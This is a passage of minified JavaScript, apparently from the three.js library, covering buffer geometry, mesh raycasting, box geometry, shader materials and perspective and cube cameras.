t*=this.itemSize,this.normalized&&(e=ge(e,this.array),n=ge(n,this.array)),this.array[t+0]=e,this.array[t+1]=n,this}setXYZ(t,e,n,i){return t*=this.itemSize,this.normalized&&(e=ge(e,this.array),n=ge(n,this.array),i=ge(i,this.array)),this.array[t+0]=e,this.array[t+1]=n,this.array[t+2]=i,this}setXYZW(t,e,n,i,r){return t*=this.itemSize,this.normalized&&(e=ge(e,this.array),n=ge(n,this.array),i=ge(i,this.array),r=ge(r,this.array)),this.array[t+0]=e,this.array[t+1]=n,this.array[t+2]=i,this.array[t+3]=r,this}onUpload(t){return this.onUploadCallback=t,this}clone(){return new this.constructor(this.array,this.itemSize).copy(this)}toJSON(){const t={itemSize:this.itemSize,type:this.array.constructor.name,array:Array.from(this.array),normalized:this.normalized};return""!==this.name&&(t.name=this.name),35044!==this.usage&&(t.usage=this.usage),t}}class xi extends yi{constructor(t,e,n){super(new Uint16Array(t),e,n)}}class bi extends yi{constructor(t,e,n){super(new Uint32Array(t),e,n)}}class Mi extends yi{constructor(t,e,n){super(new Float32Array(t),e,n)}}let Si=0;const Ei=new Sn,wi=new Zn,Ti=new Xe,Ai=new Ke,Ci=new Ke,Ri=new Xe;class Pi extends oe{constructor(){super(),this.isBufferGeometry=!0,Object.defineProperty(this,"id",{value:Si++}),this.uuid=ue(),this.name="",this.type="BufferGeometry",this.index=null,this.attributes={},this.morphAttributes={},this.morphTargetsRelative=!1,this.groups=[],this.boundingBox=null,this.boundingSphere=null,this.drawRange={start:0,count:1/0},this.userData={}}getIndex(){return this.index}setIndex(t){return Array.isArray(t)?this.index=new(be(t)?bi:xi)(t,1):this.index=t,this}getAttribute(t){return this.attributes[t]}setAttribute(t,e){return this.attributes[t]=e,this}deleteAttribute(t){return delete this.attributes[t],this}hasAttribute(t){return void 0!==this.attributes[t]}addGroup(t,e,n=0){this.groups.push({start:t,count:e,materialIndex:n})}clearGroups(){this.groups=[]}setDrawRange(t,e){this.drawRange.start=t,this.drawRange.count=e}applyMatrix4(t){const e=this.attributes.position;void 0!==e&&(e.applyMatrix4(t),e.needsUpdate=!0);const n=this.attributes.normal;if(void 0!==n){const e=(new ye).getNormalMatrix(t);n.applyNormalMatrix(e),n.needsUpdate=!0}const i=this.attributes.tangent;return void 0!==i&&(i.transformDirection(t),i.needsUpdate=!0),null!==this.boundingBox&&this.computeBoundingBox(),null!==this.boundingSphere&&this.computeBoundingSphere(),this}applyQuaternion(t){return Ei.makeRotationFromQuaternion(t),this.applyMatrix4(Ei),this}rotateX(t){return Ei.makeRotationX(t),this.applyMatrix4(Ei),this}rotateY(t){return Ei.makeRotationY(t),this.applyMatrix4(Ei),this}rotateZ(t){return Ei.makeRotationZ(t),this.applyMatrix4(Ei),this}translate(t,e,n){return Ei.makeTranslation(t,e,n),this.applyMatrix4(Ei),this}scale(t,e,n){return Ei.makeScale(t,e,n),this.applyMatrix4(Ei),this}lookAt(t){return wi.lookAt(t),wi.updateMatrix(),this.applyMatrix4(wi.matrix),this}center(){return this.computeBoundingBox(),this.boundingBox.getCenter(Ti).negate(),this.translate(Ti.x,Ti.y,Ti.z),this}setFromPoints(t){const e=[];for(let n=0,i=t.length;n<i;n++){const i=t[n];e.push(i.x,i.y,i.z||0)}return this.setAttribute("position",new Mi(e,3)),this}computeBoundingBox(){null===this.boundingBox&&(this.boundingBox=new Ke);const t=this.attributes.position,e=this.morphAttributes.position;if(t&&t.isGLBufferAttribute)return console.error("THREE.BufferGeometry.computeBoundingBox(): GLBufferAttribute requires a manual bounding box.",this),void this.boundingBox.set(new Xe(-1/0,-1/0,-1/0),new Xe(1/0,1/0,1/0));if(void 0!==t){if(this.boundingBox.setFromBufferAttribute(t),e)for(let t=0,n=e.length;t<n;t++){const n=e[t];Ai.setFromBufferAttribute(n),this.morphTargetsRelative?(Ri.addVectors(this.boundingBox.min,Ai.min),this.boundingBox.expandByPoint(Ri),Ri.addVectors(this.boundingBox.max,Ai.max),this.boundingBox.expandByPoint(Ri)):(this.boundingBox.expandByPoint(Ai.min),this.boundingBox.expandByPoint(Ai.max))}}else this.boundingBox.makeEmpty();(isNaN(this.boundingBox.min.x)||isNaN(this.boundingBox.min.y)||isNaN(this.boundingBox.min.z))&&console.error('THREE.BufferGeometry.computeBoundingBox(): Computed min/max have NaN values. The "position" attribute is likely to have NaN values.',this)}computeBoundingSphere(){null===this.boundingSphere&&(this.boundingSphere=new fn);const t=this.attributes.position,e=this.morphAttributes.position;if(t&&t.isGLBufferAttribute)return console.error("THREE.BufferGeometry.computeBoundingSphere(): GLBufferAttribute requires a manual bounding sphere.",this),void this.boundingSphere.set(new Xe,1/0);if(t){const n=this.boundingSphere.center;if(Ai.setFromBufferAttribute(t),e)for(let t=0,n=e.length;t<n;t++){const n=e[t];Ci.setFromBufferAttribute(n),this.morphTargetsRelative?(Ri.addVectors(Ai.min,Ci.min),Ai.expandByPoint(Ri),Ri.addVectors(Ai.max,Ci.max),Ai.expandByPoint(Ri)):(Ai.expandByPoint(Ci.min),Ai.expandByPoint(Ci.max))}Ai.getCenter(n);let i=0;for(let e=0,r=t.count;e<r;e++)Ri.fromBufferAttribute(t,e),i=Math.max(i,n.distanceToSquared(Ri));if(e)for(let r=0,a=e.length;r<a;r++){const a=e[r],o=this.morphTargetsRelative;for(let e=0,r=a.count;e<r;e++)Ri.fromBufferAttribute(a,e),o&&(Ti.fromBufferAttribute(t,e),Ri.add(Ti)),i=Math.max(i,n.distanceToSquared(Ri))}this.boundingSphere.radius=Math.sqrt(i),isNaN(this.boundingSphere.radius)&&console.error('THREE.BufferGeometry.computeBoundingSphere(): Computed radius is NaN. The "position" attribute is likely to have NaN values.',this)}}computeTangents(){const t=this.index,e=this.attributes;if(null===t||void 0===e.position||void 0===e.normal||void 0===e.uv)return void console.error("THREE.BufferGeometry: .computeTangents() failed. Missing required attributes (index, position, normal or uv)");const n=e.position,i=e.normal,r=e.uv;!1===this.hasAttribute("tangent")&&this.setAttribute("tangent",new yi(new Float32Array(4*n.count),4));const a=this.getAttribute("tangent"),o=[],s=[];for(let t=0;t<n.count;t++)o[t]=new Xe,s[t]=new Xe;const l=new Xe,c=new Xe,h=new Xe,u=new ve,d=new ve,p=new ve,f=new Xe,m=new Xe;function g(t,e,i){l.fromBufferAttribute(n,t),c.fromBufferAttribute(n,e),h.fromBufferAttribute(n,i),u.fromBufferAttribute(r,t),d.fromBufferAttribute(r,e),p.fromBufferAttribute(r,i),c.sub(l),h.sub(l),d.sub(u),p.sub(u);const a=1/(d.x*p.y-p.x*d.y);isFinite(a)&&(f.copy(c).multiplyScalar(p.y).addScaledVector(h,-d.y).multiplyScalar(a),m.copy(h).multiplyScalar(d.x).addScaledVector(c,-p.x).multiplyScalar(a),o[t].add(f),o[e].add(f),o[i].add(f),s[t].add(m),s[e].add(m),s[i].add(m))}let _=this.groups;0===_.length&&(_=[{start:0,count:t.count}]);for(let e=0,n=_.length;e<n;++e){const n=_[e],i=n.start;for(let e=i,r=i+n.count;e<r;e+=3)g(t.getX(e+0),t.getX(e+1),t.getX(e+2))}const v=new Xe,y=new Xe,x=new Xe,b=new Xe;function M(t){x.fromBufferAttribute(i,t),b.copy(x);const e=o[t];v.copy(e),v.sub(x.multiplyScalar(x.dot(e))).normalize(),y.crossVectors(b,e);const n=y.dot(s[t])<0?-1:1;a.setXYZW(t,v.x,v.y,v.z,n)}for(let e=0,n=_.length;e<n;++e){const n=_[e],i=n.start;for(let e=i,r=i+n.count;e<r;e+=3)M(t.getX(e+0)),M(t.getX(e+1)),M(t.getX(e+2))}}computeVertexNormals(){const t=this.index,e=this.getAttribute("position");if(void 0!==e){let n=this.getAttribute("normal");if(void 0===n)n=new yi(new Float32Array(3*e.count),3),this.setAttribute("normal",n);else for(let t=0,e=n.count;t<e;t++)n.setXYZ(t,0,0,0);const i=new Xe,r=new Xe,a=new Xe,o=new Xe,s=new Xe,l=new Xe,c=new Xe,h=new Xe;if(t)for(let u=0,d=t.count;u<d;u+=3){const d=t.getX(u+0),p=t.getX(u+1),f=t.getX(u+2);i.fromBufferAttribute(e,d),r.fromBufferAttribute(e,p),a.fromBufferAttribute(e,f),c.subVectors(a,r),h.subVectors(i,r),c.cross(h),o.fromBufferAttribute(n,d),s.fromBufferAttribute(n,p),l.fromBufferAttribute(n,f),o.add(c),s.add(c),l.add(c),n.setXYZ(d,o.x,o.y,o.z),n.setXYZ(p,s.x,s.y,s.z),n.setXYZ(f,l.x,l.y,l.z)}else for(let t=0,o=e.count;t<o;t+=3)i.fromBufferAttribute(e,t+0),r.fromBufferAttribute(e,t+1),a.fromBufferAttribute(e,t+2),c.subVectors(a,r),h.subVectors(i,r),c.cross(h),n.setXYZ(t+0,c.x,c.y,c.z),n.setXYZ(t+1,c.x,c.y,c.z),n.setXYZ(t+2,c.x,c.y,c.z);this.normalizeNormals(),n.needsUpdate=!0}}normalizeNormals(){const t=this.attributes.normal;for(let e=0,n=t.count;e<n;e++)Ri.fromBufferAttribute(t,e),Ri.normalize(),t.setXYZ(e,Ri.x,Ri.y,Ri.z)}toNonIndexed(){function t(t,e){const n=t.array,i=t.itemSize,r=t.normalized,a=new n.constructor(e.length*i);let o=0,s=0;for(let r=0,l=e.length;r<l;r++){o=t.isInterleavedBufferAttribute?e[r]*t.data.stride+t.offset:e[r]*i;for(let t=0;t<i;t++)a[s++]=n[o++]}return new yi(a,i,r)}if(null===this.index)return console.warn("THREE.BufferGeometry.toNonIndexed(): BufferGeometry is already non-indexed."),this;const e=new Pi,n=this.index.array,i=this.attributes;for(const r in i){const a=t(i[r],n);e.setAttribute(r,a)}const r=this.morphAttributes;for(const i in r){const a=[],o=r[i];for(let e=0,i=o.length;e<i;e++){const i=t(o[e],n);a.push(i)}e.morphAttributes[i]=a}e.morphTargetsRelative=this.morphTargetsRelative;const a=this.groups;for(let t=0,n=a.length;t<n;t++){const n=a[t];e.addGroup(n.start,n.count,n.materialIndex)}return e}toJSON(){const t={metadata:{version:4.6,type:"BufferGeometry",generator:"BufferGeometry.toJSON"}};if(t.uuid=this.uuid,t.type=this.type,""!==this.name&&(t.name=this.name),Object.keys(this.userData).length>0&&(t.userData=this.userData),void 0!==this.parameters){const e=this.parameters;for(const n in e)void 0!==e[n]&&(t[n]=e[n]);return t}t.data={attributes:{}};const e=this.index;null!==e&&(t.data.index={type:e.array.constructor.name,array:Array.prototype.slice.call(e.array)});const n=this.attributes;for(const e in n){const i=n[e];t.data.attributes[e]=i.toJSON(t.data)}const i={};let r=!1;for(const e in this.morphAttributes){const n=this.morphAttributes[e],a=[];for(let e=0,i=n.length;e<i;e++){const i=n[e];a.push(i.toJSON(t.data))}a.length>0&&(i[e]=a,r=!0)}r&&(t.data.morphAttributes=i,t.data.morphTargetsRelative=this.morphTargetsRelative);const a=this.groups;a.length>0&&(t.data.groups=JSON.parse(JSON.stringify(a)));const o=this.boundingSphere;return null!==o&&(t.data.boundingSphere={center:o.center.toArray(),radius:o.radius}),t}clone(){return(new this.constructor).copy(this)}copy(t){this.index=null,this.attributes={},this.morphAttributes={},this.groups=[],this.boundingBox=null,this.boundingSphere=null;const e={};this.name=t.name;const n=t.index;null!==n&&this.setIndex(n.clone(e));const i=t.attributes;for(const t in i){const n=i[t];this.setAttribute(t,n.clone(e))}const r=t.morphAttributes;for(const t in r){const n=[],i=r[t];for(let t=0,r=i.length;t<r;t++)n.push(i[t].clone(e));this.morphAttributes[t]=n}this.morphTargetsRelative=t.morphTargetsRelative;const a=t.groups;for(let t=0,e=a.length;t<e;t++){const e=a[t];this.addGroup(e.start,e.count,e.materialIndex)}const o=t.boundingBox;null!==o&&(this.boundingBox=o.clone());const s=t.boundingSphere;return null!==s&&(this.boundingSphere=s.clone()),this.drawRange.start=t.drawRange.start,this.drawRange.count=t.drawRange.count,this.userData=t.userData,this}dispose(){this.dispatchEvent({type:"dispose"})}}const Li=new Sn,Di=new Mn,Ii=new fn,Oi=new Xe,Ui=new Xe,Ni=new Xe,Fi=new Xe,ki=new Xe,zi=new Xe,Bi=new ve,Hi=new ve,Vi=new ve,Gi=new Xe,ji=new Xe,Wi=new Xe,Xi=new Xe,qi=new Xe;class Yi extends Zn{constructor(t=new Pi,e=new gi){super(),this.isMesh=!0,this.type="Mesh",this.geometry=t,this.material=e,this.updateMorphTargets()}copy(t,e){return super.copy(t,e),void 0!==t.morphTargetInfluences&&(this.morphTargetInfluences=t.morphTargetInfluences.slice()),void 0!==t.morphTargetDictionary&&(this.morphTargetDictionary=Object.assign({},t.morphTargetDictionary)),this.material=Array.isArray(t.material)?t.material.slice():t.material,this.geometry=t.geometry,this}updateMorphTargets(){const t=this.geometry.morphAttributes,e=Object.keys(t);if(e.length>0){const n=t[e[0]];if(void 0!==n){this.morphTargetInfluences=[],this.morphTargetDictionary={};for(let t=0,e=n.length;t<e;t++){const e=n[t].name||String(t);this.morphTargetInfluences.push(0),this.morphTargetDictionary[e]=t}}}}getVertexPosition(t,e){const n=this.geometry,i=n.attributes.position,r=n.morphAttributes.position,a=n.morphTargetsRelative;e.fromBufferAttribute(i,t);const o=this.morphTargetInfluences;if(r&&o){zi.set(0,0,0);for(let n=0,i=r.length;n<i;n++){const i=o[n],s=r[n];0!==i&&(ki.fromBufferAttribute(s,t),a?zi.addScaledVector(ki,i):zi.addScaledVector(ki.sub(e),i))}e.add(zi)}return e}raycast(t,e){const n=this.geometry,i=this.material,r=this.matrixWorld;if(void 0!==i){if(null===n.boundingSphere&&n.computeBoundingSphere(),Ii.copy(n.boundingSphere),Ii.applyMatrix4(r),Di.copy(t.ray).recast(t.near),!1===Ii.containsPoint(Di.origin)){if(null===Di.intersectSphere(Ii,Oi))return;if(Di.origin.distanceToSquared(Oi)>(t.far-t.near)**2)return}Li.copy(r).invert(),Di.copy(t.ray).applyMatrix4(Li),null!==n.boundingBox&&!1===Di.intersectsBox(n.boundingBox)||this._computeIntersections(t,e,Di)}}_computeIntersections(t,e,n){let i;const r=this.geometry,a=this.material,o=r.index,s=r.attributes.position,l=r.attributes.uv,c=r.attributes.uv1,h=r.attributes.normal,u=r.groups,d=r.drawRange;if(null!==o)if(Array.isArray(a))for(let r=0,s=u.length;r<s;r++){const s=u[r],p=a[s.materialIndex];for(let r=Math.max(s.start,d.start),a=Math.min(o.count,Math.min(s.start+s.count,d.start+d.count));r<a;r+=3){i=Ki(this,p,t,n,l,c,h,o.getX(r),o.getX(r+1),o.getX(r+2)),i&&(i.faceIndex=Math.floor(r/3),i.face.materialIndex=s.materialIndex,e.push(i))}}else{for(let r=Math.max(0,d.start),s=Math.min(o.count,d.start+d.count);r<s;r+=3){i=Ki(this,a,t,n,l,c,h,o.getX(r),o.getX(r+1),o.getX(r+2)),i&&(i.faceIndex=Math.floor(r/3),e.push(i))}}else if(void 0!==s)if(Array.isArray(a))for(let r=0,o=u.length;r<o;r++){const o=u[r],p=a[o.materialIndex];for(let r=Math.max(o.start,d.start),a=Math.min(s.count,Math.min(o.start+o.count,d.start+d.count));r<a;r+=3){i=Ki(this,p,t,n,l,c,h,r,r+1,r+2),i&&(i.faceIndex=Math.floor(r/3),i.face.materialIndex=o.materialIndex,e.push(i))}}else{for(let r=Math.max(0,d.start),o=Math.min(s.count,d.start+d.count);r<o;r+=3){i=Ki(this,a,t,n,l,c,h,r,r+1,r+2),i&&(i.faceIndex=Math.floor(r/3),e.push(i))}}}}function Ki(t,e,n,i,r,a,o,s,l,c){t.getVertexPosition(s,Ui),t.getVertexPosition(l,Ni),t.getVertexPosition(c,Fi);const h=function(t,e,n,i,r,a,o,s){let l;if(l=1===e.side?i.intersectTriangle(o,a,r,!0,s):i.intersectTriangle(r,a,o,0===e.side,s),null===l)return null;qi.copy(s),qi.applyMatrix4(t.matrixWorld);const c=n.ray.origin.distanceTo(qi);return c<n.near||c>n.far?null:{distance:c,point:qi.clone(),object:t}}(t,e,n,i,Ui,Ni,Fi,Xi);if(h){r&&(Bi.fromBufferAttribute(r,s),Hi.fromBufferAttribute(r,l),Vi.fromBufferAttribute(r,c),h.uv=si.getInterpolation(Xi,Ui,Ni,Fi,Bi,Hi,Vi,new ve)),a&&(Bi.fromBufferAttribute(a,s),Hi.fromBufferAttribute(a,l),Vi.fromBufferAttribute(a,c),h.uv1=si.getInterpolation(Xi,Ui,Ni,Fi,Bi,Hi,Vi,new ve)),o&&(Gi.fromBufferAttribute(o,s),ji.fromBufferAttribute(o,l),Wi.fromBufferAttribute(o,c),h.normal=si.getInterpolation(Xi,Ui,Ni,Fi,Gi,ji,Wi,new Xe),h.normal.dot(i.direction)>0&&h.normal.multiplyScalar(-1));const t={a:s,b:l,c:c,normal:new Xe,materialIndex:0};si.getNormal(Ui,Ni,Fi,t.normal),h.face=t}return h}class Zi extends Pi{constructor(t=1,e=1,n=1,i=1,r=1,a=1){super(),this.type="BoxGeometry",this.parameters={width:t,height:e,depth:n,widthSegments:i,heightSegments:r,depthSegments:a};const o=this;i=Math.floor(i),r=Math.floor(r),a=Math.floor(a);const s=[],l=[],c=[],h=[];let u=0,d=0;function p(t,e,n,i,r,a,p,f,m,g,_){const v=a/m,y=p/g,x=a/2,b=p/2,M=f/2,S=m+1,E=g+1;let w=0,T=0;const A=new Xe;for(let a=0;a<E;a++){const o=a*y-b;for(let s=0;s<S;s++){const u=s*v-x;A[t]=u*i,A[e]=o*r,A[n]=M,l.push(A.x,A.y,A.z),A[t]=0,A[e]=0,A[n]=f>0?1:-1,c.push(A.x,A.y,A.z),h.push(s/m),h.push(1-a/g),w+=1}}for(let t=0;t<g;t++)for(let e=0;e<m;e++){const n=u+e+S*t,i=u+e+S*(t+1),r=u+(e+1)+S*(t+1),a=u+(e+1)+S*t;s.push(n,i,a),s.push(i,r,a),T+=6}o.addGroup(d,T,_),d+=T,u+=w}p("z","y","x",-1,-1,n,e,t,a,r,0),p("z","y","x",1,-1,n,e,-t,a,r,1),p("x","z","y",1,1,t,n,e,i,a,2),p("x","z","y",1,-1,t,n,-e,i,a,3),p("x","y","z",1,-1,t,e,n,i,r,4),p("x","y","z",-1,-1,t,e,-n,i,r,5),this.setIndex(s),this.setAttribute("position",new Mi(l,3)),this.setAttribute("normal",new Mi(c,3)),this.setAttribute("uv",new Mi(h,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new Zi(t.width,t.height,t.depth,t.widthSegments,t.heightSegments,t.depthSegments)}}function $i(t){const e={};for(const n in t){e[n]={};for(const i in t[n]){const r=t[n][i];r&&(r.isColor||r.isMatrix3||r.isMatrix4||r.isVector2||r.isVector3||r.isVector4||r.isTexture||r.isQuaternion)?r.isRenderTargetTexture?(console.warn("UniformsUtils: Textures of render targets cannot be cloned via cloneUniforms() or mergeUniforms()."),e[n][i]=null):e[n][i]=r.clone():Array.isArray(r)?e[n][i]=r.slice():e[n][i]=r}}return e}function Ji(t){const e={};for(let n=0;n<t.length;n++){const i=$i(t[n]);for(const t in i)e[t]=i[t]}return e}function Qi(t){const e=t.getRenderTarget();return null===e?t.outputColorSpace:!0===e.isXRRenderTarget?e.texture.colorSpace:Pe.workingColorSpace}const tr={clone:$i,merge:Ji};class er extends mi{constructor(t){super(),this.isShaderMaterial=!0,this.type="ShaderMaterial",this.defines={},this.uniforms={},this.uniformsGroups=[],this.vertexShader="void main() {\n\tgl_Position = projectionMatrix * modelViewMatrix * vec4( position, 1.0 );\n}",this.fragmentShader="void main() {\n\tgl_FragColor = vec4( 1.0, 0.0, 0.0, 1.0 );\n}",this.linewidth=1,this.wireframe=!1,this.wireframeLinewidth=1,this.fog=!1,this.lights=!1,this.clipping=!1,this.forceSinglePass=!0,this.extensions={clipCullDistance:!1,multiDraw:!1},this.defaultAttributeValues={color:[1,1,1],uv:[0,0],uv1:[0,0]},this.index0AttributeName=void 0,this.uniformsNeedUpdate=!1,this.glslVersion=null,void 0!==t&&this.setValues(t)}copy(t){return super.copy(t),this.fragmentShader=t.fragmentShader,this.vertexShader=t.vertexShader,this.uniforms=$i(t.uniforms),this.uniformsGroups=function(t){const e=[];for(let n=0;n<t.length;n++)e.push(t[n].clone());return e}(t.uniformsGroups),this.defines=Object.assign({},t.defines),this.wireframe=t.wireframe,this.wireframeLinewidth=t.wireframeLinewidth,this.fog=t.fog,this.lights=t.lights,this.clipping=t.clipping,this.extensions=Object.assign({},t.extensions),this.glslVersion=t.glslVersion,this}toJSON(t){const e=super.toJSON(t);e.glslVersion=this.glslVersion,e.uniforms={};for(const n in this.uniforms){const i=this.uniforms[n].value;i&&i.isTexture?e.uniforms[n]={type:"t",value:i.toJSON(t).uuid}:i&&i.isColor?e.uniforms[n]={type:"c",value:i.getHex()}:i&&i.isVector2?e.uniforms[n]={type:"v2",value:i.toArray()}:i&&i.isVector3?e.uniforms[n]={type:"v3",value:i.toArray()}:i&&i.isVector4?e.uniforms[n]={type:"v4",value:i.toArray()}:i&&i.isMatrix3?e.uniforms[n]={type:"m3",value:i.toArray()}:i&&i.isMatrix4?e.uniforms[n]={type:"m4",value:i.toArray()}:e.uniforms[n]={value:i}}Object.keys(this.defines).length>0&&(e.defines=this.defines),e.vertexShader=this.vertexShader,e.fragmentShader=this.fragmentShader,e.lights=this.lights,e.clipping=this.clipping;const n={};for(const t in this.extensions)!0===this.extensions[t]&&(n[t]=!0);return Object.keys(n).length>0&&(e.extensions=n),e}}class nr extends Zn{constructor(){super(),this.isCamera=!0,this.type="Camera",this.matrixWorldInverse=new Sn,this.projectionMatrix=new Sn,this.projectionMatrixInverse=new Sn,this.coordinateSystem=re}copy(t,e){return super.copy(t,e),this.matrixWorldInverse.copy(t.matrixWorldInverse),this.projectionMatrix.copy(t.projectionMatrix),this.projectionMatrixInverse.copy(t.projectionMatrixInverse),this.coordinateSystem=t.coordinateSystem,this}getWorldDirection(t){return super.getWorldDirection(t).negate()}updateMatrixWorld(t){super.updateMatrixWorld(t),this.matrixWorldInverse.copy(this.matrixWorld).invert()}updateWorldMatrix(t,e){super.updateWorldMatrix(t,e),this.matrixWorldInverse.copy(this.matrixWorld).invert()}clone(){return(new this.constructor).copy(this)}}const ir=new Xe,rr=new ve,ar=new ve;class or extends nr{constructor(t=50,e=1,n=.1,i=2e3){super(),this.isPerspectiveCamera=!0,this.type="PerspectiveCamera",this.fov=t,this.zoom=1,this.near=n,this.far=i,this.focus=10,this.aspect=e,this.view=null,this.filmGauge=35,this.filmOffset=0,this.updateProjectionMatrix()}copy(t,e){return super.copy(t,e),this.fov=t.fov,this.zoom=t.zoom,this.near=t.near,this.far=t.far,this.focus=t.focus,this.aspect=t.aspect,this.view=null===t.view?null:Object.assign({},t.view),this.filmGauge=t.filmGauge,this.filmOffset=t.filmOffset,this}setFocalLength(t){const e=.5*this.getFilmHeight()/t;this.fov=2*he*Math.atan(e),this.updateProjectionMatrix()}getFocalLength(){const t=Math.tan(.5*ce*this.fov);return.5*this.getFilmHeight()/t}getEffectiveFOV(){return 2*he*Math.atan(Math.tan(.5*ce*this.fov)/this.zoom)}getFilmWidth(){return this.filmGauge*Math.min(this.aspect,1)}getFilmHeight(){return this.filmGauge/Math.max(this.aspect,1)}getViewBounds(t,e,n){ir.set(-1,-1,.5).applyMatrix4(this.projectionMatrixInverse),e.set(ir.x,ir.y).multiplyScalar(-t/ir.z),ir.set(1,1,.5).applyMatrix4(this.projectionMatrixInverse),n.set(ir.x,ir.y).multiplyScalar(-t/ir.z)}getViewSize(t,e){return this.getViewBounds(t,rr,ar),e.subVectors(ar,rr)}setViewOffset(t,e,n,i,r,a){this.aspect=t/e,null===this.view&&(this.view={enabled:!0,fullWidth:1,fullHeight:1,offsetX:0,offsetY:0,width:1,height:1}),this.view.enabled=!0,this.view.fullWidth=t,this.view.fullHeight=e,this.view.offsetX=n,this.view.offsetY=i,this.view.width=r,this.view.height=a,this.updateProjectionMatrix()}clearViewOffset(){null!==this.view&&(this.view.enabled=!1),this.updateProjectionMatrix()}updateProjectionMatrix(){const t=this.near;let e=t*Math.tan(.5*ce*this.fov)/this.zoom,n=2*e,i=this.aspect*n,r=-.5*i;const a=this.view;if(null!==this.view&&this.view.enabled){const t=a.fullWidth,o=a.fullHeight;r+=a.offsetX*i/t,e-=a.offsetY*n/o,i*=a.width/t,n*=a.height/o}const o=this.filmOffset;0!==o&&(r+=t*o/this.getFilmWidth()),this.projectionMatrix.makePerspective(r,r+i,e,e-n,t,this.far,this.coordinateSystem),this.projectionMatrixInverse.copy(this.projectionMatrix).invert()}toJSON(t){const e=super.toJSON(t);return e.object.fov=this.fov,e.object.zoom=this.zoom,e.object.near=this.near,e.object.far=this.far,e.object.focus=this.focus,e.object.aspect=this.aspect,null!==this.view&&(e.object.view=Object.assign({},this.view)),e.object.filmGauge=this.filmGauge,e.object.filmOffset=this.filmOffset,e}}const sr=-90;class lr extends Zn{constructor(t,e,n){super(),this.type="CubeCamera",this.renderTarget=n,this.coordinateSystem=null,this.activeMipmapLevel=0;const i=new or(sr,1,t,e);i.layers=this.layers,this.add(i);const r=new or(sr,1,t,e);r.layers=this.layers,this.add(r);const a=new or(sr,1,t,e);a.layers=this.layers,this.add(a);const o=new or(sr,1,t,e);o.layers=this.layers,this.add(o);const s=new or(sr,1,t,e);s.layers=this.layers,this.add(s);const l=new or(sr,1,t,e);l.layers=this.layers,this.add(l)}updateCoordinateSystem(){const t=this.coordinateSystem,e=this.children.concat(),[n,i,r,a,o,s]=e;for(const t of e)this.remove(t);if(t===re)n.up.set(0,1,0),n.lookAt(1,0,0),i.up.set(0,1,0),i.lookAt(-1,0,0),r.up.set(0,0,-1),r.lookAt(0,1,0),a.up.set(0,0,1),a.lookAt(0,-1,0),o.up.set(0,1,0),o.lookAt(0,0,1),s.up.set(0,1,0),s.lookAt(0,0,-1);else{if(t!==ae)throw new Error("THREE.CubeCamera.updateCoordinateSystem(): Invalid coordinate system: "+t);n.up.set(0,-1,0),n.lookAt(-1,0,0),i.up.set(0,-1,0),i.lookAt(1,0,0),r.up.set(0,0,1),r.lookAt(0,1,0),a.up.set(0,0,-1),a.lookAt(0,-1,0),o.up.set(0,-1,0),o.lookAt(0,0,1),s.up.set(0,-1,0),s.lookAt(0,0,-1)}for(const t of e)this.add(t),t.updateMatrixWorld()}update(t,e){null===this.parent&&this.updateMatrixWorld();const{renderTarget:n,activeMipmapLevel:i}=this;this.coordinateSystem!==t.coordinateSystem&&(this.coordinateSystem=t.coordinateSystem,this.updateCoordinateSystem());const[r,a,o,s,l,c]=this.children,h=t.getRenderTarget(),u=t.getActiveCubeFace(),d=t.getActiveMipmapLevel(),p=t.xr.enabled;t.xr.enabled=!1;const f=n.texture.generateMipmaps;n.texture.generateMipmaps=!1,t.setRenderTarget(n,0,i),t.render(e,r),t.setRenderTarget(n,1,i),t.render(e,a),t.setRenderTarget(n,2,i),t.render(e,o),t.setRenderTarget(n,3,i),t.render(e,s),t.setRenderTarget(n,4,i),t.render(e,l),n.texture.generateMipmaps=f,t.setRenderTarget(n,5,i),t.render(e,c),t.setRenderTarget(h,u,d),t.xr.enabled=p,n.texture.needsPMREMUpdate=!0}}class cr extends ze{constructor(t,e,n,i,r,a,o,s,l,c){super(t=void 0!==t?t:[],e=void 0!==e?e:D,n,i,r,a,o,s,l,c),this.isCubeTexture=!0,this.flipY=!1}get images(){return this.image}set images(t){this.image=t}}class hr extends Ve{constructor(t=1,e={}){super(t,t,e),this.isWebGLCubeRenderTarget=!0;const n={width:t,height:t,depth:1},i=[n,n,n,n,n,n];this.texture=new cr(i,e.mapping,e.wrapS,e.wrapT,e.magFilter,e.minFilter,e.format,e.type,e.anisotropy,e.colorSpace),this.texture.isRenderTargetTexture=!0,this.texture.generateMipmaps=void 0!==e.generateMipmaps&&e.generateMipmaps,this.texture.minFilter=void 0!==e.minFilter?e.minFilter:H}fromEquirectangularTexture(t,e){this.texture.type=e.type,this.texture.colorSpace=e.colorSpace,this.texture.generateMipmaps=e.generateMipmaps,this.texture.minFilter=e.minFilter,this.texture.magFilter=e.magFilter;const n={uniforms:{tEquirect:{value:null}},vertexShader:"\n\n\t\t\t\tvarying vec3 vWorldDirection;\n\n\t\t\t\tvec3 transformDirection( in vec3 dir, in mat4 matrix ) {\n\n\t\t\t\t\treturn normalize( ( matrix * vec4( dir, 0.0 ) ).xyz );\n\n\t\t\t\t}\n\n\t\t\t\tvoid main() {\n\n\t\t\t\t\tvWorldDirection = transformDirection( position, modelMatrix );\n\n\t\t\t\t\t#include <begin_vertex>\n\t\t\t\t\t#include <project_vertex>\n\n\t\t\t\t}\n\t\t\t",fragmentShader:"\n\n\t\t\t\tuniform sampler2D tEquirect;\n\n\t\t\t\tvarying vec3 vWorldDirection;\n\n\t\t\t\t#include <common>\n\n\t\t\t\tvoid main() {\n\n\t\t\t\t\tvec3 direction = normalize( vWorldDirection );\n\n\t\t\t\t\tvec2 sampleUV = equirectUv( direction );\n\n\t\t\t\t\tgl_FragColor = texture2D( tEquirect, sampleUV );\n\n\t\t\t\t}\n\t\t\t"},i=new Zi(5,5,5),r=new er({name:"CubemapFromEquirect",uniforms:$i(n.uniforms),vertexShader:n.vertexShader,fragmentShader:n.fragmentShader,side:1,blending:0});r.uniforms.tEquirect.value=e;const a=new Yi(i,r),o=e.minFilter;e.minFilter===G&&(e.minFilter=H);return new lr(1,10,this).update(t,a),e.minFilter=o,a.geometry.dispose(),a.material.dispose(),this}clear(t,e,n,i){const r=t.getRenderTarget();for(let r=0;r<6;r++)t.setRenderTarget(this,r),t.clear(e,n,i);t.setRenderTarget(r)}}const ur=new Xe,dr=new Xe,pr=new ye;class fr{constructor(t=new Xe(1,0,0),e=0){this.isPlane=!0,this.normal=t,this.constant=e}set(t,e){return this.normal.copy(t),this.constant=e,this}setComponents(t,e,n,i){return 